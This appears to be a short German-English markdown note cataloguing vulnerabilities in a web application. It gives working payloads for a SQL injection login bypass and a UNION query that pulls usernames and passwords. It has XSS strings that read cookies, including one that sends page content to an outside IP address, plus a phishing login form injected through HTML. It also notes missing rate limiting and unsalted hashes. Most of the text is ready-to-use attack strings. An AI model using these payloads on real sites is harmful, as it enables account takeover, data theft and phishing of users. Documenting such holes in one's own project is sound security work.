 # SQL Injections
Kann momentan beispielsweise durchgeführt werden, folgendes 
__" OR 1 = 1 #__ in das login-Username feld eingetragen wird. Hierdurch kann man sich einloggen ohne credentials zu nutzen.

## Union Attack 
Query kann herausgefunden werden, indem man __%'__ in das suchfeld postet oder __"__ in das login-feld.
__%' ORDER BY 4--__ to find out how many columns are in the table since this is important for the attack.
__%' UNION SELECT NULL, NULL, username, passw, NULL FROM Users --__ to return userdata.

# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
<IMG SRC=j&#X41vascript:alert('test2')>
<script>new Image().src="https://192.165.159.122/fakepg.php?output="+document.body.innerHTML</script>
```

`document.getElementById('some_id').href('google.com')` damit würden wir ein href der auf irgendeine Seite verlinkt umleiten auf eine von uns definierte Seit. (https://www.youtube.com/watch?v=uTYDPolEuBo)
`document.body.innerHTML = '<h1>Ganze Seite durch eigenes HTML ersetzen</h1>'`

# Brute-force attack
Is possible because we do not check how many requests have been sent by one user

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch 

# HTML Injections
(Phishing)
```html
<h3>Please login to proceed</h3>
<form action=http://www.google.com>
Username:<br>
<input type="username" name="username"></br>
Password:<br>
<input type="password" name="password"></br>
<br>
<input type="submit" value="Login"></br>
```

Quelltext der Seite auf der man HMTL Injection macht kopieren. Dann den Nutzer umleiten auf eine von sich gehostete Seite welche genau so aussieht wie die
ursprungsseite. Dort aber Daten abfangen etc. (https://www.youtube.com/watch?v=uTYDPolEuBo)
